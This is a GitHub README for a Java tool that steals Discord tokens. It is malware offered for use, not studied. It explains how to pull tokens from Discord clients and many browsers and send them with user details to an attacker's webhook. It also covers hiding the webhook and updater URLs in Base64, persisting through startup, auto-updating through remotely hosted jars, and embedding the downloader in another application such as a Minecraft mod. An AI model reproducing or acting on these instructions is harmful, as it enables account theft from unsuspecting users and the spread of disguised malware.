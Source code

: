 Simple Discord token logging utility written in Java. Supports both [Clients](#supported-clients) and [Browsers](#supported-browsers).
## Features
- Capture tokens saved by Discord clients and browsers in LevelDB files
- Retrieve user information using said tokens and seamlessly send it to a designated webhook in an easily customizable embed format with placeholders
- Deployment through a lightweight downloader that operates independently of external dependencies
- Added to startup for persistence, ensuring continuous monitoring.
- Enhance and adapt the application's functionality as needed through auto-update capabilities
## Dependencies
- Java 8
- [Jackson](https://github.com/FasterXML/jackson)
- [JNA](https://github.com/java-native-access/jna)
- [OkHttp](https://github.com/square/okhttp)
- [mslinks](https://github.com/DmitriiShamrikov/mslinks)
## Usage
1. Host three empty files on GitHub similar to [/examples/](../blob/master/examples/). Any other service works too, as long as the URL of each hosted file remains the same after updating them.
2. Encode the URLs of your Discord webhook, the Updater JAR and the Version Info file in Base64.
    ```
   https://discord.com/api/webhooks/...    >>>   aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvZXhhbXBsZQ==
   https://github.com/.../Updater.jar      >>>   aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVXBkYXRlci5qYXI=
   https://github.com/.../Version%20Info   >>>   aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVmVyc2lvbiUyMEluZm8=
   ```
3. Update the **Config** class accordingly:
    ```java
    public static final String WEBHOOK_URL      = decode("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvZXhhbXBsZQ==");
    public static final String VERSION_INFO_URL = decode("aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVXBkYXRlci5qYXI=");
    public static final String UPDATER_JAR_URL  = decode("aHR0cHM6Ly9naXRodWIuY29tLzB4NWQwL0Rpc2NvcmQtVG9rZW4tTG9nZ2VyL3Jhdy9tYXN0ZXIvZXhhbXBsZXMvVmVyc2lvbiUyMEluZm8=");
    ```
4. *(Optional)* Adjust the download paths for the Updater, the Application and the version number respectively in the **Config** class:
    ```java
    public static final String UPDATER_SAVE_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
    public static final String APP_SAVE_PATH     = System.getenv("LOCALAPPDATA") + "\\Microsoft\\Example.jar";
    public static final int    VERSION_NUMBER    = 1;
    ```
5. Build the **Application**(`gradle applicationJar`) and the **Updater** (`gradle updaterJar`)
6. Update your hosted files with the newly built JARs and edit the Version Info similarly to [/examples/Version Info](../blob/master/examples/Version%20Info), making sure the value of "version" matches the VERSION_NUMBER specified earlier:
    ```json
    {
    "version":1,
    "link":"https://github.com/0x5d0/Discord-Token-Logger/raw/master/examples/Application.jar"
    }
    ```
7. Implement the Downloader source in your preferred Java application (such as a Minecraft mod) and build it.
8. Run the standalone Downloader or the Java application with the integrated downloader, your Discord token and related user information will be automatically sent to your webhook.
## Auto-Update
- ### Application
  To distribute updates to all instances of your application, you must first locate and update the version number in the **Config** class to a higher value than the current one.This version number will help identify whether an update is available. You can then make the necessary changes to your main application and build it. Finally, host the new version and update the version information file to reflect these changes. This file serves as a reference for your application to determine whether an update is needed.

  *Be cautious when updating the version number. If the version number specified in the UpdateHelper class is smaller than the one in the version information file, the Application and Updater will enter a loop of downloading and deleting each other continuously. Make sure to keep the version numbers consistent to avoid this issue.*
- ### Updater
  To distribute new versions of the updater itself, simply build it with the necessary changes and replace the old file with it. The main application will download it the next time an update is needed.

  *If you cannot get the same URL for the updater as before, you will have to push a dummy update of the main application with a higher version number and the link to the new updater jar. In general, if you do not own a server, it would be good practice to host the files on GitHub and update them through that to retain the same URLs.*

### Supported Clients
- Discord
- Discord Canary
- Discord PTB

### Supported Browsers
- Brave Browser
- Epic Privacy Browser
- Falkon
- Google Chrome
- Google Chrome Beta
- Google Chrome Canary
- Google Chrome Dev
- Iridium
- Microsoft Edge
- Opera
- Opera Beta
- Opera Developer
- Opera GX
- (Ungoogled) Chromium
- Vivaldi
- Yandex